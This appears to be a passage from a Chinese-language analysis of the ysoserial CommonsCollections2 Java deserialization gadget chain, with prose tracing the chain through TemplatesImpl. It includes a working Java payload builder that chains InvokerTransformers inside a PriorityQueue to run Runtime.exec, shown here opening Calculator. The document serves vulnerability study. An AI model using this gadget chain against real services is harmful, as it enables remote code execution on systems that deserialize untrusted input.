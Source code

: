 ![-w928](media/15662017023838/15670498884317.jpg)


可能会想到那这里直接塞一个CommonsCollections1中的ChainedTransformer然后触发transform方法不是就可以了，是可以的，生成payload的方法如下

```java
private static Object createPayloadByOldfunc() throws Exception {
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
    
            new InvokerTransformer("getMethod",
                    new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
    
            new InvokerTransformer("invoke",
                    new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),
    
            new InvokerTransformer("exec",
                    new Class[]{String.class},
                    new Object[]{"open /Applications/Calculator.app"}),
    };
    
    Transformer transformer = new ChainedTransformer(new Transformer[]{});
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(transformer));
    queue.add(1);
    queue.add(1);
    Field tField = transformer.getClass().getDeclaredField("iTransformers");
    tField.setAccessible(true);
    tField.set(transformer,transformers);
    return queue;
}
```

回到yso的payload上来，TransformingComparator的参数并不是ChainedTransformer而是直接使用的InvokerTransformer，这里调用了InvokerTransformer的transform方法，参数obj1就是我们存储在队列中的内容Templateslmpl对象，和CommonsCollections1中的分析一样，iMethodName在payload中通过反射的方法设置成了newTransformer，通过`method.invoke(xxx)`执行了TemplatesImpl的newTransformer方法。

进入TemplatesImpl类，newTransformer执行了getTransletInstance方法，在该方法中通过`AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();`对类进行了实例化，那看一下_class中包含哪些内容
